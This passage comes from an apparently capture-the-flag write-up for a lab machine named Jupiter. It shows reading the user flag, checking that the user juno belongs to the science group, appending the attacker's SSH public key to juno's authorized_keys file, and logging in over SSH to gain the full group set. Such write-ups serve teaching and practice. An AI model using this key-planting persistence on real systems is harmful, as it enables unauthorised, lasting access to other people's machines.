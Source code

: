 I’m able to read `user.txt`:

```

0xdf-5.1$ cat user.txt
471f84c2************************

```

## Shell as jovian

### SSH as juno

At this point, I’ve already noticed the Jupyter process running as the other user, jovian. I’ve also noted that the folder in `/opt` is in the science group.

Interesting, juno should also be a member of science:

```

0xdf-5.1$ cat /etc/group | grep science
science:x:1001:juno,jovian

```

When I get a shell as juno by running a SetUID and/or SetGID `bash`, it only brings in the effective userid and/or group id. It doesn’t bring in all the other groups that that user may belong to.

I’ll go into juno’s `.ssh` directory and add my public key to the `authorized_keys` file:

```

0xdf-5.1$ cd /home/juno/.ssh/
0xdf-5.1$ ls
authorized_keys
0xdf-5.1$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys 

```

Now I can SSH in as juno:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen juno@jupiter.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...[snip]...
juno@jupiter:~$

```

This shell has the science group:

```

juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)

```

